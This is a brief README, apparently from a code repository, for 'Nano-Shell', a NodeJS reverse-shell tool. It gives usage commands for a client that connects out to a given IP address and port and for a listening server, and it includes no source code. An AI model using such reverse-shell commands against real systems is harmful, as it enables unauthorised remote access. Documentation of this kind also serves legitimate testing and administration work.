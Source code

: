 # Nano-Shell

A simple reverse shell (https://en.wikipedia.org/wiki/Shell_shoveling) written with NodeJS (https://nodejs.org/en/)

# Usage

Client : 

`nano-shell -u <ip-address> -p <port>`

Server :

`nano-shell -h <port>`

For more infos just check `nano-shell --help`
